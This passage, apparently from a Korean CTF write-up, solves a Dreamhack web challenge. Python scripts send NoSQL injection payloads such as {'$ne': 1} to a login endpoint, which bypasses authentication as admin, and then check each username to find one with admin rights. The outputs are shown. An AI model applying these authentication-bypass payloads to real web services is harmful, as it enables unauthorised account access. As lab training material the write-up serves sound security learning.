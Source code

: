 ```python
import requests

url = "http://host1.dreamhack.games:18962//login"

body_data = {
    "uid": "admin",
    "upw": { "$ne": 1 }
}

resp = requests.post(url, json=body_data)
print(resp.text)
```
```
// result
...
<div class="container mt-5">
  
    <h1>Welcome, admin</h1>
    <p>Your username: admin</p>
    <p>Your admin auth: 0</p>
  
</div>
...
```
body_data에 NoSQL Injection에 쓰일 쿼리를 넣어주고 POST 요청을 보내는 코드이다. 요청을 보내고 돌아오는 응답 HTML을 보면 중간에 로그인에 성공했을 때 뜨는 태그들이 보인다. <br />
예상대로 NoSQL Injection이 작동한다는 것을 알 수 있게 됐다. 
#### Blind NoSQL Injection 코드
코드를 작성하기 이전에 고려해야할 부분들이 몇가지 있다. 
1. admin 권한을 가진 유저가 누구인지(username이 무엇인지) 알 수 없음.
	그러므로 존재하는 유저 한 명 한 명을 대상으로 인젝션을 시도해야한다.
2. 비밀번호는 영어 대소문자 + 숫자 + '{' + '}'로 이루어져 있다.

##### 어떤 유저가 admin 권한이 있는지 확인하기
```python
import requests
import string
import re

url = "http://host1.dreamhack.games:9852//login"
usernames = ["hack", "apple", "melon", "testuser", "admin", "aaaa", "cream", "berry", "ice", "panda"]

for username in usernames:

    # checking if a user has auth 1
    body_data = { "uid": username, "upw": { "$ne": 1 } }
    resp = requests.post(url, json=body_data)
    match = re.search(r"Your admin auth: (\d+)", resp.text)
    if match:
        admin_auth = match.group(1)  # getting the authentication number
    if admin_auth == '0':
        print(f"{username} has no authentication..")
    else:
        print(f"{username} has authentication!")
```
```
// result
hack has no authentication..
apple has no authentication..
melon has no authentication..
testuser has authentication!
admin has no authentication..
aaaa has no authentication..
```
